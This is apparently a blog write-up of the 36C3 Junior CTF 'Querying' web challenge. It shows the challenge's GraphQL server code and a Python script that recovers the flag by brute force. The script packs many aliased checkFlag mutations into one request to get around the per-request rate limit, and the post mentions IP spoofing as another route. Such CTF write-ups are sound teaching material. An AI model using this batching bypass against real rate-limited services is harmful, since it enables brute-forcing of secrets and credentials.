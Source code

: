 ```yaml
---
title: 36C3 Querying
author: Marius Kimmina
date: 2020-01-01 14:10:00 +0800
categories: [36C3 CTF]
tags: [GraphQL]
published: true
---
```



### 0x0. Introduction
This Challenge was part of the *36C3 Junior CTF*. It was a "Web" challenge with a difficulty rating of "Medium", you were given an URL for the live challenge server and also a copy of the server (with a fake flag obv) as a Docker Container to run locally to test your exploits. The local copy was needed because the real server would give you an timeout after every request to make bruteforcing the solution harder. Sadly I was not able to solve this challenge before the timeup to get some points for it but atleast I was able to complete it shortly afterwards for my own sake.

### 0x1. Challenge Description
```
In German, Graf means count. Anyway I'm certain he likes pie. Who doesn't? He also won't give you the Flag as he keeps track of every request. Nothing to see here, please move along. http://199.247.4.207:4000/
```
There was also a file for the local copy attached which looked like this:

.  
├── dist.tar.gz  
├── docker-compose.yml  
├── Dockerfile  
├── package.json  
├── package-lock.json  
├── prisma  
│   ├── datamodel.prisma  
│   ├── prisma.yml  
│   └── seed.graphql  
├── src  
│   ├── generated  
│   │   └── prisma-client  
│   │       ├── index.d.ts  
│   │       ├── index.js  
│   │       └── prisma-schema.js  
│   ├── index.js  
│   └── schema.graphql  
└── yarn.lock  

### 0x2. Looking at the source Code

The most important file for this challenge was the index.js which contained the following code:

```js
const { GraphQLServer } = require('graphql-yoga')
const LRU = require('lru-cache')

const { prisma } = require('./generated/prisma-client')

const MAX_WAIT = 10 * 1000 // 10 seconds

const FLAG = "junior-THIS_IS_A_DUMMY"
const FLAG_REGEX = /$junior-[a-zA-Z0-9_]24^/.compile()

const requestsPerClient = new LRU({
  max: 16 * 1024,
  maxAge: 1000 * 60
})

function bruteforceProtection(context) {
  const ip = context.request.ip
  if (context.request.headers["admin"]) {
    console.log("ip", ip)
    let requests = requestsPerClient.get(ip) || 0
    const waitTime = 15 * requests * 1000
    requestsPerClient.set(ip, requests + 1)
    return new Promise(
      resolve => setTimeout(
        () => (console.log("finished", ip, waitTime) || resolve()), waitTime
      )
    )
  }
  return Promise.resolve()
}

const resolvers = {
  Query: {
    feed: (parent, args, context) => {
      return context.prisma.posts({ where: { published: true } })
    },
    drafts: (parent, args, context) => {
      return context.prisma.posts({ where: { published: false } })
    },
    post: (parent, { id }, context) => {
      return context.prisma.post({ id })
    },
  },
  Mutation: {
    checkFlag(parent, {flag}, context) {
      if (!context.request.headers["admin"]) throw "this got changed!"
      if (FLAG_REGEX.exec(flag) && flag === FLAG) return FLAG.length
      let i = 0
      while (flag[i] === FLAG[i]) i++
      return i
    },
    createDraft(parent, { title, content }, context) {
      return context.prisma.createPost({
        title,
        content,
      })
    },
    deletePost(parent, { id }, context) {
      return context.prisma.deletePost({ id })
    },
    publish(parent, { id }, context) {
      return context.prisma.updatePost({
        where: { id },
        data: { published: true },
      })
    },
  },
}

const server = new GraphQLServer({
  typeDefs: './src/schema.graphql',
  resolvers,
  context: async (request, response, fragmentReplacements) => ({
    ...request,
    prisma,
    console: await bruteforceProtection(request)
  }),
})

server.start(() => console.log('Server is running on http://localhost:4000'))
```

From the "FLAG_REGEX" we know that the Flag consist of "Junior-" and 24 Characters containing lowercase, uppercase, digits and underscores.
We can use the "Check Flag" function which will tell us how many letters of our input match the actual Flag. So we could give the Webserver an Input like this:

```js
mutation { 
    checkFlag(flag: "j")
}
```

The Server would then return "1".  
This is somewhat screaming for a bruteforce, you can guess one letter at a time and as soon as the integer responds from the server increases you go for the next letter. But there is "BruteforceProtection" build into this which will give us an timeout after every request based on our IP. You could theoretically work around this protection by spoofing your IP after every request, which was some people acctaully did and I won't blame them, whatever works works. But there is another more interesting solution which I want to focus on here.

### 0x3. Solution

The catch is, in graphql you can provide multiple mutations at once. So it is possible to ask the Server for every possible character at a position in a single request. Such a request would look like this:

```js
mutation {
  name1: checkFlag(flag: "junior-A"),
  name2: checkFlag(flag: "junior-B"),
  ...
}
```


Since we need to get 24 characters with this approach we need 24 requests to the server to get the full Flag, which still took a bit but returned the flag in a somewhat reasonable amount of time. 
I came up with the following python Script to get the Flag:

```py
import requests
import operator

url = "http://199.247.4.207:4000/"
header = {
    "content-type": "application/json",
    "admin": "true"
}

base_check = 'checkFlag(flag: "junior-'
name = "name"
possible = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '_'
]

start_query = "mutation {\n"
end_query = "}"
number = 1
i = 0
while (i < 24):
    print("getting charakter " +  str(i))
    for letter in possible:
        start_query = start_query + name + str(number) + ":" + base_check + letter + '")' + "," + "\n"
        number = int(number) + 1
    i = i + 1
    number = 1
    start_query = start_query + end_query
    r = requests.post(url, json={"query": start_query}, headers=header)
    response = r.text
    data = r.json()["data"]
    correct = max(data.items(), key=operator.itemgetter(1))[0]
    right_character = correct[4:]
    base_check += possible[int(right_character)-1]
    start_query = "mutation {\n"
    print(base_check)
```

Flag: junior-Batching_Qu3r1e5_is_FUN1